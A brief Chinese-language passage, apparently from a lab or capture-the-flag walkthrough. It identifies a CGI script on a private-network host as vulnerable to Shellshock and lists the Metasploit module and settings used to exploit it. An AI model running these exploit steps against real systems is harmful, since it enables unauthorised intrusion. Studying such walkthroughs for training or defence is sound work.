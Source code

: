 發現
http://192.168.0.24/cgi-bin/keygen
    
至於為什麼是shellshock漏洞，靠經驗，通常cgi-bin目錄下的漏洞都是shellshock
    
直接使用metaspoit
use exploit/multi/http/apache_mod_cgi_bash_env_exec
show options
set RHOSTS 192.168.0.24
set RPORT 80
set TARGETURI /cgi-bin/keygen
exploit
![image](images/H1iWGTMDa.png)